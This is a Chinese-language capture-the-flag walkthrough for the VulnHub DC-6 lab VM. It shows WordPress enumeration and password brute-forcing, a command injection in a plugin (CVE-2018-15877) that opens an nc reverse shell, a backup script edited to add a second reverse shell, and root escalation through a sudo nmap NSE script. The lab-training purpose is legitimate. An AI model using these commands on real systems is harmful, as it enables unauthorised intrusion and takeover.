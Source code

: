 # DC 6

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-6,315/

## 知识点

- suid-nmap提权

## 信息收集

```bash
ifconfig eth0 # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.156

echo "10.30.0.156 wordy" >> /etc/hosts ## 参考DC-2
```

![image](./img/vulnhub-dc6-1.png)


## 漏洞利用

按照DC-2的经验进行测试一波
```
wpscan --url http://wordy --enumerate u
```

![image](./img/vulnhub-dc6-2.png)

得到的用户列表

```
admin
mark
graham
sarah
jens
```

根据作者提示

![image](./img/vulnhub-dc6-3.png)

```bash
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
wpscan --url http://wordy --passwords passwords.txt
```

![image](./img/vulnhub-dc6-4.png)

扫描出一个用户的账号密码：mark / helpdesk01

登录后发现Activity monitor插件，首页也提示存在插件漏洞

```
http://wordy/wp-admin/admin.php?page=plainview_activity_monitor
```

百度搜索到:CVE-2018-15877
- https://www.cnblogs.com/SeanGyy/p/15576711.html1

```bash
nc -lvnp 4444 #kali
127.0.0.1| nc -e /bin/sh 10.30.0.81 4444
```

![image](./img/vulnhub-dc6-5.png)
![image](./img/vulnhub-dc6-6.png)

接下来就是提权操作

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
cd /home
ls -alR # 发现敏感信息
```

![image](./img/vulnhub-dc6-7.png)

```
cat ./mark/stuff/things-to-do.txt
```

![image](./img/vulnhub-dc6-8.png)

得到新的用户账号密码
```
graham   GSo7isUM1D4
```

```bash
ssh graham@10.30.0.156
sudo -l
```

![image](./img/vulnhub-dc6-9.png)

```bash
vi /home/jens/backups.sh # 注释，添加反弹shell
# nc -e /bin/bash 10.30.0.81 6666
nc -lvnp 6666  # kali
```

![image](./img/vulnhub-dc6-10.png)

成功切换到jens

- https://gtfobins.github.io 查找nmap提权

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
sudo -l  # nmap提权
# 提权思路： 将root权限bin/sh写入脚本插件，使用nmap运行脚本插件使用namp执行脚本，执行命令不会显示命令，建议使用python交互shell后更直观，提权成功
nmap -v

echo 'os.execute("/bin/sh")' > /tmp/root.nse
cat /tmp/root.nse
sudo nmap --script=/tmp/root.nse
whoami
```

![image](./img/vulnhub-dc6-11.png)
## 参考链接
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC6-WalkThrough.md
- http://www.kxsy.work/2021/07/30/shen-tou-dc-6/
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/ywkpnt